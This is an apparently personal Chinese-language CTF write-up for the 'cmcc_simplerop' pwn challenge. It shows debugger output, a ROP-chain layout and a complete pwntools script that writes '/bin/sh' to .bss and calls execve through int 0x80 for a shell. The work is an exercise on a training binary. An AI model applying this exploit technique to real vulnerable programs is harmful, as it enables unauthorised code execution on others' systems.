


- `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入

     

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

